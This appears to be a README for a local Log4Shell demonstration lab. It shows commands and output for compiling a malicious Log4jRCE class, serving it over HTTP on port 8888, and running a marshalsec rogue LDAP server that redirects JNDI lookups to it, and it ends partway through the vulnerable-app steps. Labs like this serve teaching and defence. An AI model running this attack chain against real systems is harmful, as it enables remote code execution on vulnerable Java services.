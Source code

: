 ## 1-remote-codes-repository

This is to emulate the remote code repository which hosts the attacker's malicious code i.e. Log4jRCE.
This code is later serialized by the vulnerable application via JNDI LDAP look up.

1. Compile Log4jRCE.java
<pre>
$ javac Log4jRCE.java

$ ls
-rw-r--r-- 1 rafsyam 197121 1.7K Feb 22 03:54 Log4jRCE.class
</pre>

2. Run a simple http server to host the code at port 8888
<pre>
$ ./run-server.sh
Serving HTTP on :: port 8888 (http://[::]:8888/) ...
</pre>

3. For demo purposes, make changes to the file Log4jRCE.java & recompile.
Do not have to re-start the server for this.

## 2-rogue-ldap

This is to emulate the attacker's LDAP server.

1. Compile & package into jar

<pre>
$ mvn clean package -DskipTests
[INFO] Scanning for projects...
[INFO]
[INFO] ----------------< org.eenterphace.mbechler:marshalsec >-----------------
[INFO] Building marshalsec 0.0.3-SNAPSHOT
[INFO] --------------------------------[ jar ]---------------------------------
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/
plugins/maven-surefire-plugin/2.19.1/maven-surefire-plugin-2.19.1.pom
...
...\target\marshalsec-0.0.3-SNAPSHOT-all.jar
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  06:02 min
[INFO] Finished at: 2022-02-22T00:33:48+08:00
[INFO] ------------------------------------------------------------------------
</pre>

2. Run the rogue LDAP server. 
Any request to this LDAP will be forwarded to the attacker codebase which has malicious code (i.e. Log4jRCE).

<pre>
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
Listening on 0.0.0.0:1389
Send LDAP reference result for Log4jRCE redirecting to http://127.0.0.1:8888/Log4jRCE.class
Send LDAP reference result for Log4jRCE redirecting to http://127.0.0.1:8888/Log4jRCE.class
</pre>

## 2-vulnerable-app

1. Run maven
<pre>
maven clean package install
</pre>

2. Run the vulnerable App that uses Log4J to log error.
